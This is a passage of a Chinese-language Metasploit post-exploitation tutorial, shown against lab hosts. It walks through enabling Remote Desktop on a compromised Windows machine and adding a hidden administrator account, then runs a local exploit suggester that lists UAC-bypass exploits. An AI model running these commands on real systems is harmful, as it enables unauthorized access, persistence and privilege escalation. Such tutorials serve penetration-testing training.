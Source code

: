 ### 远程桌面

使用 `post/windows/manage/enable_rdp` 模块可以开启目标主机远程桌面登录服务，还可以方便的添加远程桌面登录用户。

```console
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20230517192604_default_192.168.70.134_host.windows.cle_867157.txt

meterpreter > run post/windows/manage/enable_rdp username=admin password=admin123

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
[*] Setting user account for logon
[*]     Adding User: admin with Password: admin123
[*]     Adding User: admin to local group 'Remote Desktop Users'
[*]     Hiding user from Windows Login screen
[*]     Adding User: admin to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20230517192626_default_192.168.70.134_host.windows.cle_327112.txt
meterpreter >
```

### 权限提升

在对主机进行提权的时候，可以使用 `run post/multi/recon/local_exploit_suggester` 模块，扫描包含在 msf 中的本地系统漏洞，显示目标可能易受攻击的本地漏洞利用列表，以及利用漏洞的可能性。（成功率并不高）

```console
meterpreter > run post/multi/recon/local_exploit_suggester Verbose=false ValidateArch=true ValidatePlatform=true

[*] 192.168.70.129 - Collecting local exploits for x64/windows...
[*] 192.168.70.129 - 184 exploit checks are being tried...
[+] 192.168.70.129 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 192.168.70.129 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 192.168.70.129 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 192.168.70.129 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 192.168.70.129 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 192.168.70.129 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Running check method for exploit 43 / 43
[*] 192.168.70.129 - Valid modules for session 7:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
```